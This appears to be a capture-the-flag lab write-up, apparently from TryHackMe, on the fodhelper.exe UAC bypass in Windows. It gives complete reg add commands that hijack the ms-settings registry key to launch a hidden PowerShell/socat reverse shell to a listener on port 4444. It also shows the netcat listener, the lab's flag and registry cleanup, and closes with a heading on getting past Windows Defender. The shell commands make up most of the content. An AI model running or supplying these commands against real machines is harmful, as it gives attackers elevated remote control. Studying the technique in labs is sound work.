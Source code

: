 

## Practical
---

After reading all the explanation about the `fodhelper.exe` exploit to get a `high IL` shell, we can follow these steps:



```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command

set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:IP:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f

# Set up Listener on our linux machine
nc -lvnp 4444

# Start the program on the windows backdoor

fodhelper.exe
```

If we follow all steps, we will receive our high privileged shell:

![[Pasted image 20250522104451.png]]

```
C:\Windows\system32>C:\flags\GetFlag-fodhelper.exe
THM{AUTOELEVATE4THEWIN}
```

After getting our flag, we need to clean the tracks of the exploit to avoid interfering with the next tasks:

```batch
reg delete HKCU\Software\Classes\ms-settings\ /f

reg delete HKCU\Software\Classes\ms-settings\ /f
The operation completed successfully.
```


# UAC: Improving the Fodhelper Exploit to Bypass Windows Defender

----


### Windows Defender  

For simplicity, the machine we are targeting has Windows Defender disabled. But what would happen if it was enabled?
